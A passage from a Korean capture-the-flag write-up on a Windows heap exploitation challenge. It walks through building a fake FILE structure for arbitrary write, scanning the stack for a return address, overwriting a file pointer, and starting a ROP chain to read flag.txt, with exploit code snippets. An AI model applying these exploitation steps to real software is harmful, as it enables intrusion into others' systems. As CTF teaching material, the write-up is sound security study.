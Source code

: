현재 free된 chunk들의 double linked list는 아래 그림과 같습니다!

![pwncoolsexy-part5/Untitled%206.png](pwncoolsexy-part5/Untitled%206.png)

다음은 `B chunk`에 fake file structure를 구성할 차례입니다. File Structure에 대한 자세한 내용은 [Play with File Structure](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique) 슬라이드를 참고하면 되며 `_base` 필드에 임의의 주소를 쓰는 것으로 arbitrary write가 가능합니다. 따라서 `_base`에 return address를 주면 됩니다!

```php
cnt = 0
_ptr = 0
_base = ret
flag = 0x2080
fd = 0
bufsize = 0x110
obj = p64(_ptr) + p64(_base) + p32(cnt) + p32(flag)
obj += p32(fd) + p32(0) + p64(bufsize) +p64(0)
obj += p64(0xffffffffffffffff) + p32(0xffffffff) + p32(0) + p64(0)*2
```

return address에는 stack base에서 `call <func>` 다음 instruction이 들어가므로 `write` 함수 호출 직후 instruction이 있는지 확인하면서 찾으면 쉽게 찾을 수 있습니다.

```php
ret_ins = imagebase+0x1b60  
ret = stack+0x2500
while(1):
	if(readmem(key,ret) == ret_ins):
		break
	ret += 8
```

이제 해제한 `B chunk`를 재할당해 `B`에 fake file structure를 쓴 후 한번 더 할당하면 우리가 만든 fake chunk가 할당되는데, `pwd+0x20` 에 파일 포인터가 있었으니 header 크기 16 bytes를 제외한 16만큼 dummy를 채우고 `B chunk`의 주소로 파일 포인터를 overwrite 합니다.

```php
add("B_REALLOC",0x100, obj)# file structure
add("PWD_CHUNK",0x100, "F"*0x10+p64(D_bk)) #overwrite fp to chunk B
```

 

# Exploit

이제 남은 건 rop chain을 구성해서 `flag.txt`의 파일의 내용을 가져와 출력하기만 하면 됩니다! 

- `readfile`을 호출해 shellcode 입력

  - `stdin`, `stdout`은  `peb+0x20`에 위치한 `ProcessParameter` 구조체에서 leak

    ```python
    process_parameter = readmem(key, peb+0x20)
    stdin = readmem(key, process_parameter+0x20)
    stdout = readmem(key, process_parameter+0x28)
    ```
